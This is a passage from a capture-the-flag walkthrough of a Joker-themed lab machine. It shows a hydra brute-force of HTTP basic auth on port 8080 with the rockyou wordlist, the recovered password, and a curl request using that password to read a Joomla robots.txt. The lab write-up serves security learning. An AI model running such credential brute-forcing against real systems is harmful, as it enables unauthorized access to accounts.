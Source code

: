 As we can see, the word **"rock"** has been used a few times which is probably refering to the famous `rockyou` wordlist which you can download [here](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjalMrg5MTzAhUSzqQKHSc5C2UQFnoECAUQAQ&url=https%3A%2F%2Fgithub.com%2Fbrannondorsey%2Fnaive-hashcat%2Freleases%2Fdownload%2Fdata%2Frockyou.txt&usg=AOvVaw3snAERl1mU6Ccr4WFEazBd). We can try to brute-force the http page on port 8080 which requiers creds. I used `hydra` to brute-force the password for user `joker` using rockyou wordlist.

Port with authentication: `8080`

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/HA_Joker_CTF]
└─$ hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 $IP http-get  
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-12 07:51:36
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-get://10.10.1.109:8080/
[8080][http-get] host: 10.10.1.109   login: joker   password: hannah
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-12 07:52:04
~~~

Joker's password: `hannah`

## More Enumeration

Now that we have access to this port which is the page with CMS installed on it, in order to gain a shell, we have to get access to admin panel. The first thing I do is to check `/robots.txt` which can reveal us some important directories. This page includes the login page for admin panel.

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/HA_Joker_CTF]
└─$ curl -s -H "Authorization: Basic am9rZXI6aGFubmFo" "http://$IP:8080/robots.txt"  
# If the Joomla site is installed within a folder 
# eg www.example.com/joomla/ then the robots.txt file 
# MUST be moved to the site root 
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths. 
# eg the Disallow rule for the /administrator/ folder MUST 
# be changed to read 
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/orig.html
#
# For syntax checking, see:
# http://tool.motoricerca.info/robots-checker.phtml

User-agent: *
Disallow: /administrator/      <-------------------
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
~~~